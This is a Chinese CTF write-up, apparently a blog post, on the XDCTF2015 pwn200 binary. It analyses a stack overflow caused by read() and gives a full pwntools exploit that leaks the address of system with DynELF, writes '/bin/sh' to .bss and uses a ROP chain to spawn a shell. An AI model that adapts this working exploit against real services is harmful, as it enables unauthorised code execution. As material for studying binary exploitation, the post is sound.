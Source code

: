 ```yaml
---
layout:     post
title:      "XDCTF2015之pwn200"
subtitle:   "DynELF实现无libc利用"
date:       2018-06-19 12:00:00
author:     "Chris"
catalog: true
tags:
    - Pwn
 
---
```

## 0x00 代码分析

检查保护，只开启了NX

	gdb-peda$ checksec
	CANARY    : disabled
	FORTIFY   : disabled
	NX        : ENABLED
	PIE       : disabled
	RELRO     : Partial


IDA伪代码

	ssize_t sub_8048484()
	{
	  char buf; // [esp+1Ch] [ebp-6Ch]
	
	  setbuf(stdin, &buf);
	  return read(0, &buf, 0x100u);
	}

	int __cdecl main()
	{
	  int buf; // [esp+2Ch] [ebp-6Ch]
	  int v2; // [esp+30h] [ebp-68h]
	  int v3; // [esp+34h] [ebp-64h]
	  int v4; // [esp+38h] [ebp-60h]
	  int v5; // [esp+3Ch] [ebp-5Ch]
	  int v6; // [esp+40h] [ebp-58h]
	  int v7; // [esp+44h] [ebp-54h]
	
	  buf = 1668048215;
	  v2 = 543518063;
	  v3 = 1478520692;
	  v4 = 1179927364;
	  v5 = 892416050;
	  v6 = 663934;
	  memset(&v7, 0, 0x4Cu);
	  setbuf(stdout, (char *)&buf);
	  write(1, &buf, strlen((const char *)&buf));
	  sub_8048484();
	  return 0;
	}

汇编代码(关键函数sub_8048484)
	
	.text:08048484 sub_8048484     proc near               ; CODE XREF: main+A1↓p
	.text:08048484
	.text:08048484 buf             = byte ptr -6Ch
	.text:08048484
	.text:08048484 ; __unwind {
	.text:08048484                 push    ebp
	.text:08048485                 mov     ebp, esp
	.text:08048487                 sub     esp, 88h
	.text:0804848D                 mov     eax, ds:stdin
	.text:08048492                 lea     edx, [ebp+buf]
	.text:08048495                 mov     [esp+4], edx    ; buf
	.text:08048499                 mov     [esp], eax      ; stream
	.text:0804849C                 call    _setbuf
	.text:080484A1                 mov     dword ptr [esp+8], 100h ; nbytes
	.text:080484A9                 lea     eax, [ebp+buf]
	.text:080484AC                 mov     [esp+4], eax    ; buf
	.text:080484B0                 mov     dword ptr [esp], 0 ; fd
	.text:080484B7                 call    _read
	.text:080484BC                 leave
	.text:080484BD                 retn
	.text:080484BD ; } // starts at 8048484
	.text:080484BD sub_8048484     endp

明显sub_8048484()里read函数导致buf溢出

## 0x01 漏洞利用

该程序无cookie，存在很明显的栈溢出漏洞，且可以循环泄露，符合我们使用DynELF的条件。具体的栈溢出位置等调试过程就不细说了，只简要说一下借助DynELF实现利用的要点：

**先用write函数Memleak出目标主机systemAddr（leak函数里面对接收数据的处理尤其重要），再将/bin/sh写入bss段，用三个pop ret ROP调用system函数拿下shell**

## 0x02 脚本代码

	#!usr/bin/python
	# -*- coding: utf-8 -*-
	from pwn import *
	import pwnlib
	context(os='linux', log_level='debug')
	p = process("./pwn200")
	elf = ELF("./pwn200")
	writeplt = elf.symbols['write']
	readplt = elf.symbols['read']
	main_address =0x080484BE      #调用main函数
	bss_address =0x0804a020    #bss段,用来写入“/bin/sh\0”
	def leak(address):
	  payload = "A" * 112
	  payload += p32(writeplt)
	  payload += p32(main_address)
	  payload += p32(1)
	  payload += p32(address)
	  payload += p32(4)
	  p.send(payload)
	  data= p.recvuntil("XDCTF2015~!\n")
	  data=data.split('Welcome')[0]
	  print "%#x => %s" % (address, (data or '').encode('hex'))
	  return data
	
	
	p.recvline()
	dynelf = DynELF(leak, elf=ELF("./pwn200"))
	systemAddress = dynelf.lookup("system", "libc") 
	print "systemAddress:=====", hex(systemAddress)
	
	
	ppprAddress = 0x0804856c  #连续3次pop的ROP
	payload1 = "A" * 112
	payload1 += p32(readplt)
	payload1 += p32(ppprAddress)
	payload1 += p32(0)
	payload1 += p32(bss_address)
	payload1 += p32(8)
	payload1 += p32(systemAddress) + p32(main_address) + p32(bss_address)
	
	p.send(payload1)
	p.send('/bin/sh\x00')
	
	p.interactive()

## 0x03 总结

最开始我在leak函数里面，反复调用sub_8048484()，避免接收 "Welcome to XDCTF2015~!"
这个字符串，但是发现这样找到system地址返回后调用时可能堆栈出现了点问题，如果要这样用的话可以在找到地址后覆盖main函数以平衡栈空间，再进行下一步。

[文件下载](https://github.com/yxshyj/project/tree/master/pwn/XDCTF2015%E4%B9%8Bpwn200)

